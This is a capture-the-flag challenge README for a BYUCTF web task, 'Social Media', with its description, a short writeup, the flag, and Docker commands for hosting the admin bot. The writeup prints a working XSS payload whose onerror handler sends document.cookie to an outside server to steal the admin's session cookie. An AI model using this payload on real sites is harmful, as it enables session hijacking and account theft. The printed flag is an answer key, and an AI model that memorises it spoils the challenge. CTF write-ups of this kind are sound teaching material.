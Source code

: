 # Social Media
Level: Hard

Description:
```
We are creating a new social media platform called "Unhackable"!! And just to prove it, we've decided to hire you to make sure that it really *is* unhackable. If you find something fishy, send a link to our admin who will fix it!

FYI - to make sure you don't conspire against us, the "Find Friends" feature is disabled!

Site - http://byuctf.xyz:40005

Admin bot - http://byuctf.xyz:40006

Source code: [socialmedia.zip]
```

## Writeup
Basic XSS situation - the flag is the cookie of the admin. If you send a link of an infected note to the admin bot, the JavaScript code will be executed and they can grab the flag. A payload such as `<img src="x" onerror="var myImage = new Image(100, 200); myImage.src = &quot;https://justinapplegate.me/flag?cookie=&quot;+document.cookie;">` will work, and the flag can be found in the access logs of https://justinapplegate.me. 

**Flag** - `byuctf{xss_1s_a_v3ry_common_m3thod_of_attack!}`

## Hosting
The main website can be spun up by running `python3 unhackable.py` from the local directory. The admin bot uses a Docker container that makes a webserver that can be accessed port 40006. All the proper files are included in here. The command to build the docker container is (when located inside of the `admin-bot` directory):

```bash
sudo docker build -t adminbot1 .
```

The command to start the challenge is:

```bash
sudo docker run -p 40006:1337 --detach --name adminbot1 adminbot1:latest
```

The command to stop the challenge (since `CTRL+C` won't work) is:

```bash
sudo docker stop adminbot1
```